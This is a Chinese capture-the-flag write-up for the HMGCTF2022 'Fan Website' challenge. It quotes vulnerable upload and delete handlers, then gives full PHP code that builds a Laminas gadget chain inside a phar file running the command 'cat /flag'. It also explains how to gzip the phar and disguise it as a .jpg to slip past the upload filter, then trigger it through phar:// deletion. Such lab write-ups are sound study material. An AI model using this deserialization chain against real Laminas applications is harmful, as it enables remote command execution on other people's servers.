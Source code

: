 ```yaml
---
title: '[HMGCTF2022]Fan Website'
date: 2025-02-19 21:49:44
tags: phar反序列化
categories: 刷题笔记
---
```


## [HMGCTF2022]Fan Website

我们访问www.zip能拿到源码

我们在module/Album/config/module.config.php里发现一个新路由album

![image-20250219220714976](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502192207077.png)

并且发现了一个控制台，可以进行上传、删除等操作

我们在imgdeleteAction方法里发现一个@unlink

```php
    public function imgdeleteAction()
    {
        $request = $this->getRequest();
        if(isset($request->getPost()['imgpath'])){
            $imgpath = $request->getPost()['imgpath'];
            $base = substr($imgpath,-4,4);
            if(in_array($base,$this->white_list)){     //白名单
                @unlink($imgpath);
            }else{
                echo 'Only Img File Can Be Deleted!';
            }
        }
    }
```

并且在imguploadAction方法里发现一个正则

```
 if (preg_match("/<\?|php|HALT\_COMPILER/i", $cont )) {
                        die("Not This");
                    }
```

它过滤了HALT\_COMPILER，我们猜测这是一个phar反序列化

绕过正则参考:https://www.freebuf.com/articles/web/291992.html

构造出生成phar文件的php源码为：

```php
<?php 
namespace Laminas\View\Resolver{
	class TemplateMapResolver{
		protected $map = ["setBody"=>"system"];
	}
}
namespace Laminas\View\Renderer{

	class PhpRenderer{

		private $__helpers;

		function __construct(){

			$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();

		}

	}

}

namespace Laminas\Log\Writer{

	abstract class AbstractWriter{}
	
	class Mail extends AbstractWriter{

		protected $eventsToMail = ["cat /flag"];  								//  cmd  cmd cmd
		protected $subjectPrependText = null;

		protected $mail;

		function __construct(){

			$this->mail = new \Laminas\View\Renderer\PhpRenderer();
		}
	}
}
namespace Laminas\Log{
	class Logger{
		protected $writers;
		function __construct(){
			$this->writers = [new \Laminas\Log\Writer\Mail()];
		}
	}
}

namespace{
$a = new \Laminas\Log\Logger();
$phar = new Phar("shell.phar"); //后缀名必须为 phar
$phar->startBuffering();
$phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
$phar->setMetadata($a); //将自定义的 meta-data 存入 manifest
$phar->addFromString("a", str_repeat('123',1000000)); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();}

?>

```

将生成的phar文件添加足够数据保证压缩后大于3KB，然后再通过gzip压缩并更名为`test.jpg`并上传。

我们访问/album/imgupload上传图片

![image-20250220194417755](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502201944863.png)

接着去删除页面通过phar伪协议删除来触发反序列化，得到flag

![image-20250220200952765](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502202009933.png)



